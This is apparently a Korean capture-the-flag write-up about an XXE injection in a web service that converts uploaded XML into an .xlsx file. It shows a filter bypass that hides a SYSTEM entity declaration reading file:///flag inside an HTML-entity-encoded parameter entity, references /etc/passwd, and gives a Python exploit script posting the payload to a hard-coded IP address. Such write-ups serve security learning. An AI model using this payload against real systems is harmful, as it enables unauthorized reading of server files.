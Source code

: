 유저가 전달한 XML 데이터를 파싱하여 결과 값을 .xlsx 파일에 담아 반환한다. 하지만, External Entity 삽입을 허용하고 있어 XXE Injection 취약점이 발생한다. `<!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>`와 같은 공격 코드를 삽입하면, `xml_data.replace("SYSTEM", "system")`로 인해 실행이 되지 않아 이를 우회해야한다.    
            
```xml 
<!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY % a "&#60;&#33;&#69;&#78;&#84;&#73;&#84;&#89;&#32;&#120;&#120;&#101;&#32;&#83;&#89;&#83;&#84;&#69;&#77;&#32;&#34;&#102;&#105;&#108;&#101;&#58;&#47;&#47;&#47;&#102;&#108;&#97;&#103;&#34;&#32;&#62;" >
    %a;
]>
<members>
  <member>
    <name>&xxe;</name>
    <address>123 Main St</address>
    <company>Example Inc.</company>
    <job>Developer</job>
    <email>user@example.com</email>
    <username>user123</username>
  </member>
</members>
```    

`<!ENTITY xxe SYSTEM "file:///flag" >`를 HTML Entity로 인코딩하여 %a에 Entity를 선언하고, %a를 호출하여 xxe Entity가 포함되도록 해주면 우회가 가능하다. 다른 방법으로는 SYSTEM 대신 PUBLIC 키워드를 사용하면 이와 같이 우회할 수 있다.           
       
### Exploit Code 
```python
import requests

xml_payload = """<!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY % a "&#60;&#33;&#69;&#78;&#84;&#73;&#84;&#89;&#32;&#120;&#120;&#101;&#32;&#83;&#89;&#83;&#84;&#69;&#77;&#32;&#34;&#102;&#105;&#108;&#101;&#58;&#47;&#47;&#47;&#102;&#108;&#97;&#103;&#34;&#32;&#62;" >
    %a;
]>
<members>
  <member>
    <name>&xxe;</name>
    <address>123 Main St</address>
    <company>Example Inc.</company>
    <job>Developer</job>
    <email>user@example.com</email>
    <username>user123</username>
  </member>
</members>
"""

files = {'file': ('exploit.xml', xml_payload, 'application/xml')}
response = requests.post('http://52.231.138.201:8580/download', files=files)

with open('members.xlsx', 'wb') as f:
    f.write(response.content)
```     
            